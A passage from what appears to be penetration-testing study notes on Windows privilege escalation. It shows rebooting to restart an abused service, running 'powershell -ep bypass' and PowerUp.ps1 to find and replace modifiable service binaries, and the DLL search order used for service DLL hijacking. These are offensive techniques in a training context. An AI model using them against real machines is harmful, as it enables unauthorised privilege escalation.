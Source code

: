 If we do not have permission to manually restart the service, we must consider another approach. If the service _Startup Type_ is set to "Automatic", we may be able to restart the service by rebooting the machine.

Check StartMode:

```powershell
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}
```

In order to issue a reboot, our user needs to have the privilege _SeShutDownPrivilege_ assigned

<pre class="language-powershell"><code class="lang-powershell"><strong>PS C:\Users\dave> whoami /priv
</strong>PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled

PS C:\Users\dave> shutdown /r /t 0
</code></pre>



#### Using [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)

Get Modifiable services and abuse:

```powershell
PS C:\Users\dave> powershell -ep bypass
...
PS C:\Users\dave>  . .\PowerUp.ps1

PS C:\Users\dave> Get-ModifiableServiceFile

Install-ServiceBinary -Name 'serviceName'
```



### Service DLL Hijacking

_The following listing shows the standard search order_

```
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.
```

#### Find process with missing dll <a href="#id-1-find-process-with-missing-dll" id="id-1-find-process-with-missing-dll"></a>
